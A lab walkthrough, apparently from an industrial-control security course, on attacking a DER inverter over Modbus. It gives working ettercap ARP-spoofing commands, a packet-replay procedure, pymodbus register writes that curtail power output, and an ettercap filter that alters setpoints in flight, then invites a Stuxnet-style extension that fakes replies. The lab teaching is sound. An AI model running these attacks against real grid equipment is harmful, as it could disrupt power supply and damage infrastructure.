





# Replay Attack on DER

1. In order to craft a Modbus replay attack on the DER device, we need to intercept the traffic from the DERMS to the DER.  This can be done with mirror/SPAN ports, network taps, or using Address Resolution Protocol (ARP) Spoofing.  In this case we will use ARP spoofing, wherein the DERMS<-->DER trafic passes through the Kali machine, as shown in red below. 

	

2. On your Kali Linux VM, open a terminal using `Ctrl` + `Alt` + `t`.  Determine your ethernet interface with `ip a`. 

	
	
	There are three ethernet interfaces on this Kali VM.  The first is the loopback interface `lo`, the second is VM NAT network interface `eth0`, and the last is the NIC on the `10.10.0.10/24` network. We want to use the last one. 
	
3. Start a Wireshark session by clicking on the Kali Linux icon in the upper left, going to `09 - Sniffing % Spoofing` -> `wireshark`. 

	Start a session on `eth1`. 
	
4. On your Windows machine, open the SVP Dashboard and connect to the DER device. Click on the link to open `http://localhost:8444` in the Firefox browser. Go to `Device` -> `Open...` and enter the following:

	`Device Type: Modbus TCP`  
	`IP Address: 10.10.0.100`  
	`IP Port: 502`  
	`Slave ID: 1`  
	`Timeout (secs): 5`

	Click `Open`. 

5. You should see the Modbus Common Model (model 1) data for the DER device as before. To get that information there was a holding register read of the Modbus server running on the DER device.  Go back to the Wireshark session on the Kali machine and filter for `modbus`.  You should not see any traffic. This is because the switch between the machines only directs traffic to IP addresses associated with their Media Access Control (MAC) address. The Address Resolution Protocol (ARP) is used to determine the mapping between IP address and MAC addresses.  However, this protocol can be abused to sniff traffic between endpoints by telling the networking equipment that our MAC address is actually associated with the IPs where the traffic is being sent. 

5. We will use `ettercap`, a multipurpose sniffer/content filter, to capture traffic running from the DERMS to the DER with the following command.  Enter this in a new terminal: 

	`sudo ettercap -T --iface eth1 -M arp:remote /10.10.0.100// /10.10.0.50//`
	
	Enter the Kali password, `kali`, if prompted.

	This command says that we'll be poisoning the ARP tables to intercept traffic between `10.10.0.100` and `10.10.0.50`.  Once it's running you can type `h` to see the list of commands: 
	
	```
	Inline help:
	 [vV]      - change the visualization mode
	 [pP]      - activate a plugin
	 [fF]      - (de)activate a filter
	 [lL]      - print the hosts list
	 [oO]      - print the profiles list
	 [cC]      - print the connections list
	 [rR]      - adjust SSL intercept rules
	 [sS]      - print interfaces statistics
	 [<space>] - stop/cont printing packets
	 [qQ]      - quit
	```
	
	You can then type `L` to pring the hosts list:
	
	```
	Hosts list:
	1)      10.10.0.50      00:0C:29:A8:0A:BE
	2)      10.10.0.100     00:0C:29:1A:2C:0B
	```
	
5. Now go back to the Windows machine and click the `Read` button at the bottom of the SVP Dashboard three times.

5. Go back to the Kali machine and look at the Modbus traffic in Wireshark.  You should see traffic indicating a `Function Code: Read Holding Registers (3)`

	

5. Now let's change the DER power using the SVP on the Windows DERMS machine. Go to tab `704` which is for the `DER AC Controls (DERCtlAC)` SunSpec Model.  To give a sense of how the SunSpec Controls function, we will limit the output power to a percentage of the maximum active power.  

	Set the value of `Limit Max Power Pct Enable (WMaxLimPctEna)` to `1`, to enable this curtailment function. 
	
	Set the value of `Limit Max Power Pct Setpoint (WMaxLimPct)` to `100`, which with the scaling factor is actually 10% of the Nameplate Active Power of the DER or 1000 W. 
	
	Press the `Write` button at the bottom of the SVP Dashboard. 
	
6. You can write different values to `Limit Max Power Pct Setpoint (WMaxLimPct)` to adjust the level of inverter curtailment. 

	The power change from the DER can be seen on the DER website `http://10.10.0.100` or in the `Active Power (W)` in SunSpec Model `701`.
	
	

7. Write a `0` to `Limit Max Power Pct Enable (WMaxLimPctEna)` to disable this function in the DER.  

8. Switch back to the Kali machine and let's look at the traffic between the DERMS and the DER.  In the Wireshark application enter a filter of `modbus` and see if you can see the traffic from the DERMS at `10.10.0.50` and the DER at `10.10.0.100`.

	
	
9. You should be able to scroll down through the list of Modbus packets in the upper pane to identify a Modbus write command.  This will include data in the `Info` column that reads similar to `Query: Trans: 0; Unit: 1, Func: 16: Write Multiple Registers`.  Select this packet. 

	In the middle pane of Wireshark, you can expand the `Modbus` information to reveal the application layer data.  This data includes the values that the DERMS wrote to the DER.  In the packet below, the DERMS enabled the `Limit Max Power Pct` by sending a unsigned 16-bit integer (UINT16) to Modbus Register 40310 and a 100 UINT16 to Register 40311.  You will recall these are the values that were written by the DERMS.  
	
	
	
10. With this packet still selected, go to `File` -> `Export Specified Packets...`.  Save the pcapng file to `/home/kali` with a name `replay.pcap` using the `Export as:` drop down menu.  Make sure to only export the selected packet my selecting `Selected packets only`. 

	
	
	

15. Some Python code was created to modify the captured Modbus message using scapy and send it to the DER device. Take a look at the code using the following command: 

	`mousepad ~/replay_attack.py`

	You can see how certain TCP/IP and application layer fields are changed from the first `replay.pcap` packet. Close the mousepad window after reviewing the code.  
	
16. Run the code to change the DER power to 15% of nameplate. 
	
	`sudo python3 ~/replay_attack.py`

	Examine the script output to see how the packet was modified from the captured version and then sent to the DER device. 

12. Another option for an adversary is to craft a new Modbus packet to impact the equipment.  An attacker can use the information gained from their passive network monitoring reconnaissance to determine the Modbus registers for these functions.  With this context, an attacker could directly communicate with the Modbus server on the DER device directly.  The structure of a Modbus TCP message is:

	| Transaction Id | Protocol | Length | Unit Address | Message | 
	| -------------- | -------------- | -------------- | -------------- | -------------- | 
	| 2 Bytes | 2 Bytes | 2 Bytes | 1 Byte | N Bytes | 

	where:
	
	* The `Transaction Id` field identifies the transaction.
	* The `Protocol` field is zero to indicate Modbus protocol.
	* The `Length` field is the number of following bytes.
	* The `Unit Address` field is the PLC Address encoded as single byte.
	* The `Message` field is a Modbus PDU. The maximum length of the Message field is is 253 bytes.
	* The maximum Modbus TCP message length is 260 bytes.

	To make things easier, a Python script was written to communicate with this DER device using pymodbus. Take a look at the code with the following command.
	
	`mousepad ~/modbus_attack.py`
	
	The important lines are writing values to fixed Modbus registers in the `attack()` method.
	
	```
	rsp = der.write_registers(40311, target_pct*10, unit=1)
	rsp2 = der.write_registers(40310, reg_ena_value, unit=1)
	```
	
	Close the mousepad window after reviewing the code. 

13. Run the code with `python3 ~/modbus_attack.py -t 20` to set the curtailment to 20% of nameplate.  Go back to the Windows DERMS machine and verify the change in the SVP Dashboard.  Try different target values:

	`python3 ~/modbus_attack.py -t 20`
	
	`python3 ~/modbus_attack.py -t 80`
	
	`python3 ~/modbus_attack.py -t 35`
	
14. To disable the Limit Max Power Pct function, run the following: 

	`python3 ~/modbus_attack.py -clean True`.


# Machine in the Middle (MITM)

1. To perform the MITM attack, instead of using `ettercap` to just monitor Modbus traffic, we will apply a filter to actively change the traffic on the way to it's destination.  First, let's look at a filter that changes all data that contains `1000` to `200`: 

	`cat ~/mb_filter`
	
	You can see that this replaces the hex string `\x03\xe8` (1000) with `\x00\xc8` (200). 
	
	
	
2. Now let's compile this code: 

	`etterfilter mb_filter -o mb_filter.ef`
	
3. Then use `ettercap` to apply this filter to the DER device with the following command: 

	`sudo ettercap -T -q --iface eth1 -F mb_filter.ef -M ARP /10.10.0.100// ///`
	
	Enter the Kali password, `kali`, if prompted.
	
4. Now let's go to the DERMS computer and write a few different value for `Limit Max Power Pct Setpoint (WMaxLimPct)` in the 704 tab of the SVP.  

	* Enter a 100 for `WMaxLimPct` to set the power to 10%. Check to see if there was anything reported on the Kali machine. 
	* Enter a 300 for `WMaxLimPct` to set the power to 30%. Check to see if there was anything reported on the Kali machine. 
	* Enter a 1000 for `WMaxLimPct` to set the power to 100% (full output). Check to see if there was anything reported on the Kali machine. 
	
	You should see that the filter detected this data and modified the 1000 to 200 (20%).  If you perform a `Read` at the bottom of the SVP, you will see that the actual value in the DER Modbus server is 200! Someone has changed the Modbus data in flight between the DERMS and the DER. At this point, the `WMaxLimPct` value can never be set back to 100%!
	
	Press `q` on the ettercap session to exit. 

	

# Lessons Learned

This session showed how to use ettercap to conduct ARP spoofing and sniff traffic between the DERMS and DER.  Modbus packets were modifed and replayed to the DER to change the active power of the equipment. Next a ettercap filter was compiled and applied to modify the Modbus traffic in real time by intercepting this data and replaying it to the DER device. 

In this example, only the traffic to the DER device was modified.  Commands issued by the DERMS were modified between the DERMS and DER device.  Even more nefarious is a MITM attack that modifies traffic returning to the DERMS to make it appear as though the commands were accepted by the DER device. This tactic was used in the Stuxnet computer worm that damaged Iranian nuclear centrifuges wherein the MITM code faked industrial process control sensor signals. Could you imagine how the filter could be modified to create such a behavior?
